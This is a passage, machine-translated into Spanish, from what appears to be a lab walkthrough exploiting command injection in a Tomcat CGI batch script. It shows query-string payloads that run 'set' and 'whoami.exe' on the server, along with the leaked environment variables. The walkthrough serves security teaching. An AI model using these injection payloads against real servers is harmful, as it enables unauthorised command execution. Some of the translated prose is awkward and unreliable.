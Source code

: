 Navegar a la URL anterior Devuelve la salida para el`dir`comando de lotes, sin embargo, intenta ejecutar otras aplicaciones comunes de línea de comandos de Windows, como`whoami`no devuelve una salida.

Recuperar una lista de variables ambientales llamando al`set`dominio:

Código:http

```
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat

```

De la lista, podemos ver que el`PATH`La variable ha sido inseguro, por lo que tendremos que codificar las rutas en las solicitudes:

Código:http

```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe

```
